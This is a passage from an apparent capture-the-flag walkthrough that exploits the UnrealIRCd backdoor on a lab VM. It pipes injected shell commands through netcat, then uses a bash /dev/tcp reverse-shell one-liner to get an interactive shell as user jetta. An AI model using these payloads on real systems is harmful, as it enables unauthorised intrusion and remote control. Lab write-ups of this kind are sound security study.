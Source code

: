 So, back on the challenge vm, I have port 6667 still forwarded locally. To test this, I ran a command to list the contents of /home/ and redirect the output to a file in /tmp.

```bash Testing UnrealIRCD backdoor
# echo "AB; ls -lah /home/ > /tmp/1" | nc 127.0.0.1 6667
:relativity.localdomain NOTICE AUTH :*** Looking up your hostname...
:relativity.localdomain NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:relativity.localdomain 451 AB; :You have not registered
^C
```

Back on the SSH session I had with `mauk`'s account, /tmp/1 appeared, however without permissions for me to see it. So, I reran the previous command, substituting the backdoor command to `chmod 777 /tmp/1`. I reran the cat on /tmp/1 in mauk's session and bam:

```bash UnrealIRCD backdoor testing
mauk@Relativity ~]$ cat /tmp/1
total 16K
drwxr-xr-x.  4 root  root  4.0K Feb 25  2013 .
dr-xr-xr-x. 18 root  root  4.0K Feb 28  2013 ..
drwx------.  4 jetta jetta 4.0K Sep 28 10:03 jetta
drwxr-xr-x.  3 mauk  mauk  4.0K Jul  9 08:55 mauk
```

Oh yes! Its working! In a broken kind of way, but it works! To make my life a little easier, I changed the backdoor command to actually give me a back connect bash shell so that I can have a interactive session. Its a time saving thing really. My command to the IRCd was now `echo "AB; bash -i >& /dev/tcp/<my machine>/6676 0>&1" | nc 127.0.0.1 6667`. On my machine I opened a netcat listener on port 6676 and waited for the session to spawn:

```bash Back connect shell for jetta
# nc -vnlp 6676
listening on [any] 6676 ...
connect to [<snip>] from (UNKNOWN) [192.168.56.21] 53493
bash: no job control in this shell
[jetta@Relativity Unreal]$
```

Great. Now it will be a lot easier to navigate around. Spawing the shell the way I did started me off in `/opt/Unreal`, which was a directory I previously did not have access to. I poked around here for a bit, trying to see if I missed anything with regards to the IRC setup. Nothing was immediately apparent, so, I moved on to the rest of the machine. More specifically, in `jetta`'s home directory, there was a binary called `auth_server`, owned by root, but with no suid bit. I attempted to execute the binary, and was greeted by a spinning pipe, and eventually a 'error(12)' after a classic cowsay.

```bash auth_server Test run
[jetta@Relativity ~]$ ls -lah auth_server/auth_server
ls -lah auth_server/auth_server
-rwxr-xr-x 1 root root 7.9K Mar  8  2013 auth_server/auth_server
[jetta@Relativity ~]$ auth_server/auth_server
auth_server/auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...- ____________________________
/ Windows 2000 is out!       \
|                            |
\ -- PC Magazine, April 2013 /
 ----------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
could not establish connection
error: (12)
[jetta@Relativity ~]$
```
